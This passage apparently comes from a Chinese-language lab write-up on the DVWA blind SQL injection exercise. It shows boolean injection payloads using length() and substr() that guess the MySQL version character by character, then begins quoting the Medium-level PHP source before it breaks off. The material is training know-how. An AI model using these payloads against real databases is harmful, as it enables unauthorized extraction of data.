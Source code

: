 #### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```



首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```

直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位

![image-20220823164305127](./Lab7_SQL Injection.assets/image-20220823164305127.png)



然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```

![image-20220823164749777](./Lab7_SQL Injection.assets/image-20220823164749777.png)

最后拼接得到 MySQL 版本为 5.5.33



## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
```